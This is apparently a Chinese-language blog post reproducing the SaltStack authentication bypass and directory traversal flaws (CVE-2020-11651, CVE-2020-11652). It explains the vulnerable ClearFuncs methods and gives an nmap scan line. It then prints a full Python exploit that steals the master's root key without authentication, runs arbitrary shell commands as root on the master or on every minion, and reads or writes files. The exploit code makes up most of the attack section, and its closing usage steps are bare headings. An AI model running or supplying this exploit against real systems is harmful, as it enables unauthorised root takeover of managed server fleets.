



# [](#saltstack-%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0cve-2020-11651)SaltStack 远程命令执行漏洞复现（CVE-2020-11651）

## [](#saltstack-%E7%AE%80%E4%BB%8B)SaltStack 简介

SaltStack 是基于 Python 开发的一套 C/S 架构配置管理工具，是一个服务器基础架构集中化管理平台，具备配置管理、远程执行、监控等功能，基于 Python 语言实现，结合轻量级消息队列（ZeroMQ）与 Python 第三方模块（Pyzmq、PyCrypto、Pyjinjia2、python-msgpack 和 PyYAML 等）构建。

Salt 用于监视和更新服务器状态。每个服务器运行一个称为 `minion` 的代理程序，该代理程序连接到 `master` 主机，即 salt 安装程序，该安装程序从 Minions 收集状态报告并发布 Minions 可以对其执行操作的更新消息。通常，此类消息是对所选服务器配置的更新，但是它们也可以用于在多个（甚至所有）受管系统上并行并行运行同一命令。

salt 中的默认通信协议为 ZeroMQ。主服务器公开两个 ZeroMQ 实例，一个称为`请求服务器`，其中 `minion` 可以连接到其中报告其状态（或命令输出），另一个称为`发布服务器`，其中主服务器可以连接和订阅这些消息。

## [](#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85)漏洞详情

### [](#%E5%BD%B1%E5%93%8D%E7%89%88%E6%9C%AC)影响版本

> SaltStack < 2019.2.4 SaltStack < 3000.2

### [](#%E6%BC%8F%E6%B4%9E%E7%BB%86%E8%8A%82)漏洞细节

#### [](#%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9Ecve-2020-11651)身份验证绕过漏洞（CVE-2020-11651）

ClearFuncs 类在处理授权时，并未限制 `_send_pub()` 方法，该方法直接可以在发布队列消息，发布的消息会通过 root 身份权限进行执行命令。ClearFuncs 还公开了 `_prep_auth_info()` 方法，通过该方法可以获取到 `root key`，通过获取到的 `root key` 可以在主服务上远程调用命令。

#### [](#%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9Ecve-2020-11652)目录遍历漏洞（CVE-2020-11652）

whell 模块中包含用于在特定目录下读取、写入文件命令。函数中输入的信息与目录进行拼接可以绕过目录限制。

在salt.tokens.localfs 类中的 get\_token() 方法（由 ClearFuncs 类可以通过未授权进行调用）无法删除输入的参数，并且作为文件名称使用，在路径中通过拼接 `..` 进行读取目标目录之外的文件。唯一的限制是文件必须通过 `salt.payload.Serial.loads()` 进行反序列化。

## [](#%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)漏洞复现

### [](#nmap-%E6%8E%A2%E6%B5%8B%E7%AB%AF%E5%8F%A3)nmap 探测端口

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>nmap -sV -p 4504,4506 IP<br>``` |



### [](#exp)exp

|     |     |     |
| --- | --- | --- |
| ```plain<br>  1<br>  2<br>  3<br>  4<br>  5<br>  6<br>  7<br>  8<br>  9<br> 10<br> 11<br> 12<br> 13<br> 14<br> 15<br> 16<br> 17<br> 18<br> 19<br> 20<br> 21<br> 22<br> 23<br> 24<br> 25<br> 26<br> 27<br> 28<br> 29<br> 30<br> 31<br> 32<br> 33<br> 34<br> 35<br> 36<br> 37<br> 38<br> 39<br> 40<br> 41<br> 42<br> 43<br> 44<br> 45<br> 46<br> 47<br> 48<br> 49<br> 50<br> 51<br> 52<br> 53<br> 54<br> 55<br> 56<br> 57<br> 58<br> 59<br> 60<br> 61<br> 62<br> 63<br> 64<br> 65<br> 66<br> 67<br> 68<br> 69<br> 70<br> 71<br> 72<br> 73<br> 74<br> 75<br> 76<br> 77<br> 78<br> 79<br> 80<br> 81<br> 82<br> 83<br> 84<br> 85<br> 86<br> 87<br> 88<br> 89<br> 90<br> 91<br> 92<br> 93<br> 94<br> 95<br> 96<br> 97<br> 98<br> 99<br>100<br>101<br>102<br>103<br>104<br>105<br>106<br>107<br>108<br>109<br>110<br>111<br>112<br>113<br>114<br>115<br>116<br>117<br>118<br>119<br>120<br>121<br>122<br>123<br>124<br>125<br>126<br>127<br>128<br>129<br>130<br>131<br>132<br>133<br>134<br>135<br>136<br>137<br>138<br>139<br>140<br>141<br>142<br>143<br>144<br>145<br>146<br>147<br>148<br>149<br>150<br>151<br>152<br>153<br>154<br>155<br>156<br>157<br>158<br>159<br>160<br>161<br>162<br>163<br>164<br>165<br>166<br>167<br>168<br>169<br>170<br>171<br>172<br>173<br>174<br>175<br>176<br>177<br>178<br>179<br>180<br>181<br>182<br>183<br>184<br>185<br>186<br>187<br>188<br>189<br>190<br>191<br>192<br>193<br>194<br>195<br>196<br>197<br>198<br>199<br>200<br>201<br>202<br>203<br>204<br>205<br>206<br>207<br>208<br>209<br>210<br>211<br>212<br>213<br>214<br>``` | ```python<br>#!/usr/bin/env python3<br><br>import argparse<br>import datetime<br>import os<br>import pip<br>import sys<br>import warnings<br><br>def install(package):<br>    if hasattr(pip, "main"):<br>        pip.main(["install", package])<br>    else:<br>        pip._internal.main(["install", package])<br><br>try:<br>    import salt<br>    import salt.version<br>    import salt.transport.client<br>    import salt.exceptions<br>except:<br>    install("distro")<br>    install("salt")<br><br>def ping(channel): <br>    message = {<br>        "cmd":"ping"<br>    }<br>    try:<br>        response = channel.send(message, timeout=5)<br>        if response:<br>            return True <br>    except salt.exceptions.SaltReqTimeoutError:<br>        pass<br><br>    return False<br><br>def get_rootkey(channel):<br>    message = {<br>        "cmd":"_prep_auth_info"<br>    }<br>    try:<br>        response = channel.send(message, timeout=5)<br>        for i in response:<br>            if isinstance(i,dict) and len(i) == 1:<br>                rootkey = list(i.values())[0]<br>                return rootkey      <br>    except:<br>        pass<br><br>    return False<br><br>def minion(channel, command):<br>    message = {<br>        "cmd": "_send_pub",<br>        "fun": "cmd.run",<br>        "arg": ["/bin/sh -c \"{command}\""],<br>        "tgt": "*",<br>        "ret": "",<br>        "tgt_type": "glob",<br>        "user": "root",<br>        "jid": "{0:%Y%m%d%H%M%S%f}".format(datetime.datetime.utcnow()),<br>        "_stamp": "{0:%Y-%m-%dT%H:%M:%S.%f}".format(datetime.datetime.utcnow())<br>    }<br><br>    try:<br>        response = channel.send(message, timeout=5)<br>        if response == None:<br>            return True<br>    except:<br>        pass<br>    <br>    return False<br><br>def master(channel, key, command):<br>    message = { <br>        "key": key,<br>        "cmd": "runner",<br>        "fun": "salt.cmd",<br>        "kwarg":{<br>            "fun": "cmd.exec_code",<br>            "lang": "python3",<br>            "code": f"import subprocess;subprocess.call(\"{command}\",shell=True)"<br>        },<br>        "user": "root",<br>        "jid": "{0:%Y%m%d%H%M%S%f}".format(datetime.datetime.utcnow()),<br>        "_stamp": "{0:%Y-%m-%dT%H:%M:%S.%f}".format(datetime.datetime.utcnow())<br>    }<br><br>    try:<br>        response = channel.send(message, timeout=5)<br>        log("[ ] Response: " + str(response))<br>    except:<br>        return False<br><br>def download(channel, key, src, dest):<br>    message = {<br>        "key": key,<br>        "cmd": "wheel",<br>        "fun": "file_roots.read",<br>        "path": path,<br>        "saltenv": "base",<br>    }<br><br>    try:<br>        response = channel.send(message, timeout=5)<br>        data = response["data"]["return"][0][path]<br><br>        with open(dest, "wb") as o:<br>            o.write(data)<br>        return True<br>    except:<br>        return False<br><br>def upload(channel, key, src, dest):<br>    try:<br>        with open(src, "rb") as s:<br>            data = s.read()<br>    except Exception as e:<br>        print(f"[ ] Failed to read {src}: {e}")<br>        return False<br><br>    message = {<br>        "key": key,<br>        "cmd": "wheel",<br>        "fun": "file_roots.write",<br>        "saltenv": "base",<br>        "data": data,<br>        "path": dest,<br>    }<br><br>    try:<br>        response = channel.send(message, timeout=5)<br>        return True<br>    except:<br>        return False<br>    <br>def log(message):<br>    if not args.quiet:<br>        print(message)<br><br>if __name__=="__main__":<br>    warnings.filterwarnings("ignore")<br><br>    desc = "CVE-2020-11651 PoC" <br><br>    parser = argparse.ArgumentParser(description=desc)<br><br>    parser.add_argument("--host", "-t", dest="master_host", metavar=('HOST'), required=True)<br>    parser.add_argument("--port", "-p", dest="master_port", metavar=('PORT'), default="4506", required=False)<br>    parser.add_argument("--execute", "-e", dest="command", default="/bin/sh", help="Command to execute. Defaul: /bin/sh", required=False)<br>    parser.add_argument("--upload", "-u", dest="upload", nargs=2, metavar=('src', 'dest'), help="Upload a file", required=False)<br>    parser.add_argument("--download", "-d", dest="download", nargs=2, metavar=('src', 'dest'), help="Download a file", required=False)<br>    parser.add_argument("--minions", dest="minions", default=False, action="store_true", help="Send command to all minions on master",required=False)<br>    parser.add_argument("--quiet", "-q", dest="quiet", default=False, action="store_true", help="Enable quiet/silent mode", required=False)<br>    parser.add_argument("--fetch-key-only", dest="fetchkeyonly", default=False, action="store_true", help="Only fetch the key", required=False)<br><br>    args = parser.parse_args()<br><br>    minion_config = {<br>        "transport": "zeromq",<br>        "pki_dir": "/tmp",<br>        "id": "root",<br>        "log_level": "debug",<br>        "master_ip": args.master_host,<br>        "master_port": args.master_port,<br>        "auth_timeout": 5,<br>        "auth_tries": 1,<br>        "master_uri": f"tcp://{args.master_host}:{args.master_port}"<br>    }<br>    <br>    clear_channel = salt.transport.client.ReqChannel.factory(minion_config, crypt="clear")<br><br>    log(f"[+] Attempting to ping {args.master_host}")<br>    if not ping(clear_channel):<br>        log("[-] Failed to ping the master")<br>        log("[+] Exit")<br>        sys.exit(1)<br><br><br>    log("[+] Attempting to fetch the root key from the instance.")<br>    rootkey = get_rootkey(clear_channel)<br>    if not rootkey:<br>        log("[-] Failed to fetch the root key from the instance.")<br>        sys.exit(1)<br>    <br>    log("[+] Retrieved root key: " + rootkey)<br>    <br>    if args.fetchkeyonly:<br>        sys.exit(1)<br><br>    if args.upload:<br>        log(f"[+] Attemping to upload {src} to {dest}")<br>        if upload(clear_channel, rootkey,  args.upload[0], args.upload[1]):<br>            log("[+] Upload done!")<br>        else:<br>            log("[-] Failed")<br>         <br>    if args.download:<br>        log(f"[+] Attemping to download {src} to {dest}")<br>        if download(clear_channel, rootkey,  args.download[0], args.download[1]):<br>            log("[+] Download done!")<br>        else:<br>            log("[-] Failed")<br><br>    if args.minions:<br>        log("[+] Attempting to send command to all minions on master")<br>        if not minion(clear_channel, command):<br>            log("[-] Failed")<br>    else:<br>        log("[+] Attempting to send command to master")<br>        if not master(clear_channel, rootkey, command):<br>            log("[-] Failed")<br>    <br>``` |

### [](#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)漏洞利用

读取 `root key` 检测是否存在漏洞:



目录遍历


命令执行


